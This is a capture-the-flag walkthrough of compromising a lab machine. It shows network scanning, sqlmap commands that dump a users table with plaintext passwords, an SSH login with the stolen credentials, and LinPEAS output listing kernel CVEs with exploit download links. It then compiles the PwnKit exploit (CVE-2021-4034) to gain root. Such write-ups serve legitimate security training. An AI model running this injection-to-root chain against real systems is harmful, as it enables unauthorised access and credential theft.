 I scan my network with:
````
sudo arp-scan -I eth1 -l
````
And the we run a nmap with the IP we get from our network:
  ````
sudo nmap -sT <ip>
````
the results:
````
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

````
I also got this: http://<ip>/mercuryfacts/1/ by navigating through the website.
It looks like a query for facts to mercury. I ran sqlmap to check this:

````
sqlmap -u http://IP:8080/mercuryfacts/1 --dbs 
````
from that command I got the following result:
````
[INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

````

Then I checked for the tables inside mercury DB

````
sqlmap -u http://IP/mercuryfacts/1 -D mercury --tables  
````
````
Database: mercury
[2 tables]
+-------+
| facts |
| users |
+-------+
````
And by dumping the content of the table users I got:
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --columns
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+


````
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --dump   
````
````
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
````
Besides the users we also know that there is an ssh service open. I tried the users and passwords for ssh connection and I got into the machine with webmaster username.

From here I check the linux kernel version and vulnerabilities that might be vulnerable to; This with the help of LinPEAS:

````

Linux version 5.4.0-45-generic

[+] [CVE-2022-2586] nft_object UAF                                                                        

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
````

I decided to use Pwnkit, I cloned the repo https://github.com/ly4k/PwnKit and send the .c file with scp,
````
scp ./PwnKit.c webmaster@10.0.3.244:/home/webmaster
````
With the .c file on the machine, I proceded to compile the file.

````
 gcc -shared PwnKit.c -o Pwnkit -Wl,-e,entry -fPIC
````
From here I have a root access and just run a find to locate the root flag:
````
find / -name "*flag.txt" ````
